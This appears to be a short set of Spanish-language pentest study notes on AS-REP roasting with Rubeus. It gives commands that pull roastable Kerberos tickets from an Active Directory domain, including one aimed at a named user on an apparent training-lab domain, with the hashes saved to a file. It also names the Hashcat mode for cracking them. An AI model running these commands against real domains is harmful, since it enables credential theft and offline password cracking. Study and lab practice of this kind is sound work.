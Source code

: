# Rubeus:

### Traer todos los tickets asreproasteables

    .\Rubeus.exe asreproast /nowrap
### Traer el ticket de un usuario en específico

    .\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt

    
Hashcat 18200

